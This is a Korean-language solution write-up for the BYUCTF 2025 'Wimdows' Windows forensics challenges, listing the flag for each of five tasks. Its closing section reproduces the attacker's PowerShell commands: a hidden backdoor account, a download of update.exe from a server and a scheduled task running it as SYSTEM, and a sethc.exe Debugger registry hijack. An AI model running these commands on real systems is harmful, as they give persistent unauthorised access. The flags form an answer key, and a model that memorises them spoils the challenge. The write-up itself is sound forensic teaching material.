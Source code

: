 # 🪟 BYUCTF 2025 - Wimdows 시리즈

## 🖥️ 공통 정보

- 문제 유형: Windows 포렌식 (디스크/로그 기반 분석)
- 제공 파일: [Windows 가상 머신 다운로드](https://byu.box.com/v/byuctf-wimdows)  
- 로그인 정보: `vagrant / vagrant`
- 공통 힌트: 모든 문제는 **Event Viewer (이벤트 로그)** 및 **Sysmon** 분석으로 해결 가능함

---

## 1️⃣ Wimdows 1 - Exploited CVE 찾기

### 🔍 설명

공격자가 Windows 서버에 침투함. 어떤 취약점을 이용해 셸을 얻었는지 파악해야 함.  
플래그 형식: `byuctf{CVE-YYYY-NNNN}`

### 🛠️ 풀이 요약

- System 로그에서 `elasticsearch-service-x64.exe`를 부모로 하는 SYSTEM 권한 프로세스 다수 발견
- 해당 ElasticSearch 버전: **1.1.1**
- 관련 CVE 중 **RCE가 가능한 유일한 취약점**: `CVE-2014-3120`
- ![image](https://github.com/user-attachments/assets/30a7b886-848e-4250-8f69-43bdd03d183a)


### ✅ 정답

byuctf{CVE-2014-3120}



---

## 2️⃣ Wimdows 2 - 숨겨진 명령 내역

### 🔍 설명

공격자가 침투 후 명령어를 실행했지만, 로그를 은폐하려고 시도함.  
Event Log에서 흔적을 찾아야 함.  
플래그는 이미 `byuctf{}` 형식으로 숨겨져 있음.

### 🛠️ 풀이 요약

- Windows Event Log > PowerShell 로그 확인
- Base64 인코딩된 명령어들 중 하나에 플래그 포함됨

### ✅ 정답

byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}


---

## 3️⃣ Wimdows 3 - 공격자가 만든 계정의 그룹

### 🔍 설명

공격자가 만든 새로운 계정을 어떤 그룹에 추가했는지 확인해야 함  
예시 형식: `byuctf{Remote Desktop Users}`  
대소문자 무시

### 🛠️ 풀이 요약

- Event Log에서 `phasma` 사용자 계정이 `Remote Desktop Users` 그룹에 추가된 이벤트 확인

### ✅ 정답

byuctf{Remote Desktop Users}


---

## 4️⃣ Wimdows 4 - C2 바이너리 및 서버 IP

### 🔍 설명

공격자가 C2 바이너리를 배포함.  
사용된 C2 프레임워크와 해당 C2 서버 IP를 확인해야 함.  
형식: `byuctf{<c2 framework>_<ip address>}`

### 🛠️ 풀이 요약

- `C:\Windows\System32\update.exe` 확인
- VirusTotal에 업로드하여 C2 프레임워크가 **Sliver**임을 확인
- Netstat 등으로 서버 IP 확인: `192.168.1.224`

### ✅ 정답

byuctf{sliver_192.168.1.224}


---

## 5️⃣ Wimdows 5 - SYSTEM 권한 백도어

### 🔍 설명

공격자가 SYSTEM 권한을 얻기 위해 설치한 **백도어**를 찾아야 함  
답은 `byuctf{}` 형식으로 Registry에 숨겨져 있음

### 🛠️ 풀이 요약

- Sysmon에서 `sethc.exe`에 대한 `IFEO (Image File Execution Options)` 레지스트리 키 수정 확인
- `sethc.exe`가 `cmd.exe`로 리디렉션되어 있으며, 값 뒤에 주석 형태로 플래그 포함됨

### ✅ 정답

byuctf{00p5_4ll_b4ckd00r5_139874}


---

## 🛠️ 참고: 공격 재현 과정

```powershell
# Wimdows 2
whoami /priv
ls -l
write-output 'byuctf{n0w_th4t5_s0m3_5u5_l00k1ng_p0w3rsh3ll_139123}'
get-process
get-service

# Wimdows 3
net user phasma f1rst0rd3r! /add
New-Item -Path "HKLM:\...\UserList" -Force | Out-Null
New-ItemProperty -Path "HKLM:\...\UserList" -Name "phasma" -Value 0 -PropertyType DWord -Force
net localgroup "Remote Desktop Users" phasma /add

# Wimdows 4
Invoke-WebRequest -Uri "http://${server_ip}:8000/update.exe" -OutFile "C:\Windows\System32\update.exe"
schtasks /create /tn "updates" /tr "C:\Windows\System32\update.exe" /ru 'SYSTEM' /sc onstart /rl highest
schtasks /run /tn "updates"

# Wimdows 5 (in Sliver)
REG ADD "HKLM\...\sethc.exe" /v Debugger /d "C:\windows\system32\cmd.exe #byuctf{00p5_4ll_b4ckd00r5_139874}" /f
